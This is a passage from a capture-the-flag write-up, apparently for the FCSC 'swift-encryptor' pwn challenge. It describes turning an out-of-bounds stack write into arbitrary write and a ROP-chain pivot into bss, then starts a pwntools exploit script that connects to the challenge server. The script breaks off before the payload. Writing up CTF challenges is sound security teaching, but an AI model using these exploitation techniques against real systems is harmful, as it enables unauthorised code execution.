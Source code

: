 ### Getting code execution

As said before, sending fake messages to the joiner thread will result in a out of bound stack write.
We can use it to rewrite the saved `rbp` and return address. We can only write 14 bytes though, I still tried to overwrite it but `rdi` isn't pointing to something useful when returning so we will have to pivot on a larger rop chain.

The joiner thread stores a pointer to the joining buffer, we can rewrite it to redirect the buffer anywhere and gain arbitrary write. Now we are able to write a rop chain in `bss` with multiple messages (Overflow once to rewrite the buffer pointer, then overflow again to ~512 to write what we want) and pivot on it.

## Exploit

```py
from pwn import *
import pwn
import random as rnd
import base64 as b64
import struct as st
from time import sleep
import re
import subprocess
from itertools import *
from more_itertools import *

file = './swift-encryptor'
exe_args = []
PREFIX = (b": ", b"> ")
speed = 0.2

io: process = None

def debug(pid=io):
    gdb.attach(pid, gdbscript=
    """
    
    """, exe=file)
    input("debug")

def launch_remote():
    global file, io
    host = args.HOST if args.HOST else 'chall.fcsc.fr'
    port = args.PORT if args.PORT else 2104
    io = remote(host, port)

def launch_docker():
    global file, io
    io = remote("localhost", 2104)
    if args.GDB:
        out = subprocess.run(["pgrep", "--newest", "^None$"], capture_output=True)
        debug(int(out.stdout))

def launch_local():
    global file, io
    io = process([file, *exe_args])
    if args.GDB:
        debug(io)

def solve_pow():
    leak = recvu(b"===================")
    pow = getb(leak, b") solve ", b"\n").decode()
```